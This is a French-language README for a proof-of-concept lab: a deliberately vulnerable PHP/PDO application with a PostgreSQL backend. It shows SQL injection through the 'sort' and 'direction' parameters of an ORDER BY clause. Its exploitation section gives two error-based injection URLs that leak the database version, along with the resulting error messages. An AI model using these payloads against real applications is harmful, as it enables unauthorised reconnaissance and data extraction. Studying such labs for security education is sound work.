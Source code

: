 # PoC - Exploitation des injections SQL dans les clauses ORDER BY

## Installation

```
$ docker-compose build
$ docker-compose up -d
```

![image](https://github.com/user-attachments/assets/39419bea-36df-4182-a049-6e86d2c2a09a)

## Description

L'application, développée en PHP avec l'extension PDO, permet de rechercher des utilisateurs présents dans une base de données PostgreSQL. Toutefois, les paramètres "sort" et "direction" utilisés au sein de la clause `ORDER BY` lors de l'appel à l'API sont sensibles aux injections SQL.

## Exploitation

Récupération de la version du système de base de données via le paramètre "sort" :

```sql
/users?search=&sort=(CAST((SELECT VERSION()) AS NUMERIC))&direction=ASC&page=1&maxPerPage=5
```

```
Error: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: "PostgreSQL 15.7 (Debian 15.7-1.pgdg120+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit"
```

Récupération de la version du système de base de données via le paramètre "direction" :

```sql
/users?search=&sort=username&direction=ASC,(CAST((SELECT VERSION()) AS NUMERIC))&page=1&maxPerPage=5
```

```
Error: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: "PostgreSQL 15.7 (Debian 15.7-1.pgdg120+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit"
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/main/exploitation-des-injections-sql-au-sein-de-la-clause-order-by/PHP-PDO-et-PostgreSQL/demo/demo.gif)

## Disclaimer

Cet outil est destiné uniquement à des fins éducatives et doit être utilisé uniquement dans des environnements de tests de pénétration autorisés. L'accès ou l'utilisation non autorisés de systèmes que vous ne possédez pas est illégal. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

## License

Ce projet est sous licence MIT.